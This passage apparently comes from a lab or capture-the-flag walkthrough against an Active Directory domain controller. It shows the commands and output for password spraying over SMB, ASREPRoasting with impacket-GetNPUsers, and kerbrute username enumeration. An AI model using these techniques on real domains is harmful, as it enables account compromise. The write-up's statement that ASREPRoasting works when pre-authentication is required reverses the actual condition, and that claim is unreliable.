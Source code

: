 ```bash
SMB         192.168.209.30  445    NARA             [-] nara-security.com\Carolyn.Hill:Carolyn.Hill STATUS_LOGON_FAILURE 
SMB         192.168.209.30  445    NARA             [-] nara-security.com\Jemma.Humphries:Jemma.Humphries STATUS_LOGON_FAILURE 
SMB         192.168.209.30  445    NARA             [-] nara-security.com\Tracy.White:Tracy.White STATUS_LOGON_FAILURE
```

- That didn't turn out as expected so the next thing on my list is the ASREPRoasting attack which should be possible to get any user hash due to Kerberos pre-authentication required attribute enabled on an object.

```bash
❯ impacket-GetNPUsers nara-security.com/ -dc-ip 192.168.209.30 -usersfile users.txt -format hashcat -outputfile hashes.txt

Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User NARA$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Amelia.O'Brien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Damian.Johnson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Helen.Robinson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Sara.O'Sullivan doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Jasmine.Roberts doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Declan.Reynolds doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Jodie.Summers doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Carolyn.Hill doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Jemma.Humphries doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Tracy.White doesn't have UF_DONT_REQUIRE_PREAUTH set
```

- The last technique also didn't yield result as expected so i decided to run my kerbrute and enumerate users again just to be sure i am on the right path. But hehe, No users where discovered except from the `Administrator` and `Guest` user account which is as usual. 

```bash
❯ kerbrute userenum --dc 192.168.209.30 --domain nara-security.com /usr/share/wordlists/seclist/Usernames/xato-net-10-million-usernames.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.1 (385cb2b) - 08/14/24 - Ronnie Flathers @ropnop

2024/08/14 21:35:26 >  Using KDC(s):
2024/08/14 21:35:26 >   192.168.209.30:88

2024/08/14 21:38:50 >  [+] VALID USERNAME:       guest@nara-security.com
2024/08/14 21:55:53 >  [+] VALID USERNAME:       administrator@nara-security.com

2024/08/14 23:13:00 >  Done! Tested 8295455 usernames (2 valid) in 5854.516 seconds

```
